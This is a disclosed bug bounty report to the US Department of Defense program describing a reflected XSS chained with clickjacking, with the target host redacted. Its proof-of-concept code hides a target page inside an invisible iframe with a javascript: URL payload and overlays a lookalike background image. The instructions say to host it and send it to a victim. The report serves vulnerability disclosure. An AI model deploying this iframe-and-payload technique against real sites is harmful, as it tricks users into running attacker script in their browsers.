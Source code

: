 # Reflected XSS through ClickJacking

## Report Details
- **Report ID**: 1171403
- **URL**: https://hackerone.com/reports/1171403
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-04-21T19:16:29.964Z
- **Disclosed**: 2021-06-15T19:31:11.569Z

## Reporter
- **Username**: sazouki
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

Hello DoD team

i found an reflected XSS that require user interaction, but it's suspicious due the reflected payload in the page

███████

So in this case i chain it with click-jacking with image background same like the legal website to make it more trusting

████████

below is the code

```code
<style>

div {
       position:absolute;
       top:200px;
       left:900px;
       
   }
 body {

 	background-image: url('1.png');
 	background-repeat: no-repeat;
 	background-position: 300px 5px;

 }
</style>

<iframe src="https://███████?URL=javascript:alert(document.domain)//%0D%0A&#x22;https://google.com" id="xxx" width=100% height=100% style="opacity: 0;"></iframe>

```

## Impact

attacked can run malicious code in the victim browser

## System Host(s)
www.██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
host the provided code with the background image and send it to the victim

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
